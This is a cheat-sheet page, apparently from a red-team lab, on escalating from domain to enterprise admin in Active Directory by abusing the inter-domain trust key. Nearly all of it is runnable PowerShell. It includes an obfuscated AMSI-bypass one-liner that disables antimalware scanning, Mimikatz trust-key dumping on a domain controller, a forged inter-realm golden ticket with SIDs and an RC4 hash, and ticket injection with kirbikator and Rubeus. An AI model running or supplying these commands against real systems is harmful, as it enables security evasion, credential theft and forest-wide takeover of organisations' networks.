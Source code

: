 ```yaml
---
layout: page
title: "# Domain access, PrivEsc to EntAdmin using Domain Trustkey"
permalink: /ad_cheatsheets/domain_access_privesc_to_entadmin_with_trustkey
---
```


# Domain access, PrivEsc to EntAdmin using Domain Trustkey

## Getting Trust Key

```powershell
powershell -ep bypass

$sess = New-PSSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local

Enter-PSSession -Session $sess

sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

exit

Invoke-Command -FilePath C:\AD\Tools\Invoke-Mimikatz.ps1 -Session $sess

Enter-PSSession -Session $sess

Invoke-Mimikatz -Command '"lsadump::trust /patch"'

```

**With Mimikatz only:**

```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## Create inter-realm TGT

```powershell

Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /sids:S-1-5-21-280534878-1496970234-700767426-519 /rc4:f052addf1d43f864a7d0c21cbce440c9 /service:krbtgt /target:moneycorp.local /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi"'
```

## Create TGS for CIFS Service

```powershell
.\asktgs.exe C:\AD\Tools\kekeo_old\trust_tkt.kirbi CIFS/mcorp-dc.moneycorp.local
```

## Present TGS to Target Service - kirbikator

```powershell
.\kirbikator.exe lsa .\CIFS.mcorp-dc.moneycorp.local.kirb
```

## Present TGS to Target Service - Rebeus

```powershell
.\Rubeus.exe asktgs /ticket:C:\AD\Tools\kekeo_old\trust_tkt.kirbi/service:cifs/mcorp-dc.moneycorp.local /dc:mcorp-dc.moneycorp.local /ptt
```

## Resources

[Escalate Domain privileges](https://medium.com/redteam-blueteam-series/escalate-domain-privileges-e53ae4027856)
